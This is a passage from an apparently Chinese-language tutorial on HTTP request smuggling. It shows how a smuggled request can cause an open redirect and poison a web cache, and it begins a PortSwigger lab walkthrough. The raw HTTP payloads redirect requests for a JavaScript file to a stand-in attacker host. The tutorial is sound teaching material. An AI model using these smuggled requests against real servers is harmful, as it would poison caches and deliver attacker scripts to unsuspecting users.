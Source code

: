 上面的貌似没啥大问题，但是如果服务器允许在路径中使用与协议相关的 URL，这仍有可能用于开放式重定向

```plain
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```

### 缓存投毒

在上述攻击的变体中我们也可以利用 HTTP 请求走私来执行 Web 缓存中毒攻击，如果前端基础结构的任何部分执行内容缓存 (通常是出于性能原因)，那么就有可能用异地重定向响应来破坏缓存，这将使攻击持续下去，影响任何随后请求受影响 URL 的用户，在这种变体中攻击者向前端服务器发送以下所有内容：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

走私的请求到达后端服务器后，位于后端的服务器会像以前一样用重定向进行响应，前端服务器根据它认为是第二个请求中的 URL(即/static/include.js) 缓存此响应，此时当其他用户请求此 URL 时，将会受到攻击者网站的重定向

```plain
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码传输，前端服务器被配置为缓存某些响应，为了解决这个实验，你需要执行一个请求走私攻击，导致缓存中毒，这样一个 JavaScript 文件的后续请求接收到一个重定向到利用服务器，中毒的缓存应该向 document.cookie 发出警报  
过程演示：  
首先访问上述的靶场地址然后点击"ACCESS THELAB"进入靶场，随后点开任意一个 Blog，然后点击"Next Blog"  
[![](assets/1704418275-a323cfdc175d1b829ddcb2a399dc996e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161440-245a8222-aa10-1.png)  
此时我们会捕获到以下请求数据包：

[![](assets/1704418275-d16e1cca6d7f01673fedca9d8cb54578.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161614-5c839008-aa10-1.png)  
随后我们重新来过并更改请求数据包在其中插入走私的请求报文内容：
